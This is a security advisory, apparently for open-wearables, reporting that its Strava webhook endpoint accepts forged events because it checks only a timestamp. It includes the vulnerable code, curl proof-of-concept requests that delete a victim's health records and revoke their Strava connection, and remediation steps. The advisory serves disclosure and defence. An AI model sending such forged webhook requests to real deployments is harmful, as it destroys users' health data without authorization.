

# Forged Strava Webhook Events Enable Unauthenticated Health-Data Deletion and Connection Revocation in open-wearables

| Field | Value |
|---|---|
| Project | [the-momentum/open-wearables](https://github.com/the-momentum/open-wearables) |
| Vulnerability Type | Improper Verification of Cryptographic Signature / Forged Webhook Data Destruction (CWE-347, CWE-345) |
| Severity | High — CVSS 3.1 Base Score: 8.2 |
| CVSS Vector | `AV:N/AC:L/PR:N/UI:N/S:U/C:N/I:H/A:L` |
| Affected Versions | <= 0.9.0 (latest release) and current master @ `e69efd1` (verified) |
| Authentication | None (all webhook routes are unauthenticated; the "signature" check validates only a caller-supplied timestamp) |

---

## Summary

The Strava inbound webhook handler's `verify_signature` parses a timestamp out of the caller-controlled `X-Strava-Signature` header and checks nothing but a 300-second freshness window — it never computes an HMAC and never verifies any shared secret (the code comments itself with "skip HMAC"). All three equivalent routes (`/api/v1/strava/webhooks`, `/api/v1/providers/strava/webhooks`, `/api/v1/strava/webhook`) have no application-layer authentication. Any unauthenticated attacker who supplies a current timestamp passes verification, and forged events flow through the Celery pipeline into destructive actions keyed only on data the attacker chooses: `activity`+`delete` physically deletes the victim's health-activity records by public Strava activity ID, and `athlete`+`delete` revokes the victim's Strava OAuth connection and clears its tokens.

## Details

`backend/app/services/providers/strava/webhook_handler.py:75`:

```python
def verify_signature(self, request: Request, body: bytes) -> bool:
    """Validate timestamp from X-Strava-Signature; skip HMAC.

    Security relies on the hub.challenge handshake at subscription time.
    Replays are rejected using the timestamp in X-Strava-Signature.
    """
    header = request.headers.get("X-Strava-Signature", "")
    ...
    if abs(time.time() - timestamp) > settings.strava_webhook_signature_tolerance_seconds:
        ...return False
    return True
```

The stated rationale — that the `hub.challenge` handshake performed once at subscription time protects subsequent deliveries — does not hold: the handshake authenticates the subscription URL to Strava, it provides no way for the endpoint to authenticate later POSTs. Strava does not sign webhook deliveries, which is precisely why the endpoint must not perform destructive actions on unverified input. The handler's own `BaseWebhookHandler.handle()` only rejects requests failing this timestamp check (`HTTP 401`); everything else is parsed and dispatched.

The routes (`backend/app/api/routes/v1/strava_webhooks.py`, mounted at `/api/v1/strava/webhooks` in `v1/__init__.py:74`, with legacy equivalents in `deprecated_webhooks.py:80`) take no authentication dependency, and the event schema's required `subscription_id` is attacker-supplied like every other field. `process_payload` then acts on the payload with no re-verification against the Strava API:

- `object_type=activity`, `aspect_type=delete` → `_handle_activity_delete` → `event_record_service.crud.delete_by_external_id(db, user_id, object_id, provider="strava")` — permanent deletion of the victim's activity records, where `owner_id` is the victim's public Strava athlete ID.
- `object_type=athlete`, `aspect_type=delete` → `_handle_athlete_deauthorize` → `connection_repo.disconnect(...)` — revokes the victim's connection and clears the stored OAuth tokens.

## PoC

**Real-environment reproduction** (open-wearables master @ `e69efd1` deployed locally for this test; a victim user was seeded with a `strava` connection for athlete `67890` and one activity record with `external_id=12345`):

```bash
# Negative control — expired timestamp is rejected (proves the check exists but is the only gate)
curl -X POST http://TARGET:8000/api/v1/strava/webhooks \
  -H 'Content-Type: application/json' -H "X-Strava-Signature: t=1791172840" \
  -d '{"object_type":"activity","object_id":12345,"aspect_type":"delete","owner_id":67890,"event_time":1791172840,"subscription_id":1}'
# -> HTTP 401 {"detail":"Invalid webhook signature"}

# Forged deletion — nothing but a CURRENT timestamp; no credentials, no secret
curl -X POST http://TARGET:8000/api/v1/strava/webhooks \
  -H 'Content-Type: application/json' -H "X-Strava-Signature: t=1791272839" \
  -d '{"object_type":"activity","object_id":12345,"aspect_type":"delete","owner_id":67890,"event_time":1791272839,"subscription_id":1}'
# -> HTTP 200 {"status":"accepted"}   (Celery task dispatched)

# Database after the worker processed the forged event:
#   SELECT count(*) FROM event_record WHERE external_id='12345' ...  -> 0
#   (the victim's health activity was physically deleted)

# Forged disconnect
curl -X POST http://TARGET:8000/api/v1/strava/webhooks \
  -H 'Content-Type: application/json' -H "X-Strava-Signature: t=<now>" \
  -d '{"object_type":"athlete","object_id":67890,"aspect_type":"delete","owner_id":67890,"event_time":<now>,"subscription_id":1}'
# -> HTTP 200 {"status":"accepted"}
#   SELECT status FROM user_connection ...  -> 'revoked'  (tokens cleared)
```

The only gate is timestamp freshness; the forged events executed end-to-end (worker log: `webhook_activity_deleted ... records_deleted`, `webhook_athlete_deauthorized`).



---

## Impact

- **Unauthenticated destruction of health data** — for any victim whose Strava athlete ID is known (public on Strava profiles and activity pages), forged `delete` events permanently remove their activity records; mass deletion across a user base is a single loop.
- **Silent disruption of data pipelines** — forged `athlete` deauthorization events revoke victims' connections and wipe their tokens, silently cutting off syncs until each victim manually reconnects.
- **No attribution or non-repudiation** — accepted forged events are logged as if they were genuine Strava deliveries, poisoning audit trails.

### Remediation

1. Treat webhook deliveries as untrusted hints, never as authorization for destructive actions: before deleting or disconnecting, re-verify against the Strava API (e.g. `GET /api/v3/activities/{id}` with the stored token) — forged events fail this check while genuine ones succeed.
2. Add an endpoint-authentication secret to the callback URL (a random token embedded in the subscription path, checked on every delivery), and rotate it together with the subscription.
3. Soft-delete records triggered by webhook events and keep an audit log (source IP, payload, matching connection), with alerting on bulk deletions so operators can detect abuse.
4. Keep the timestamp check purely as replay protection and document that it provides no authenticity; remove the misleading "security relies on the hub.challenge handshake" rationale from the code.
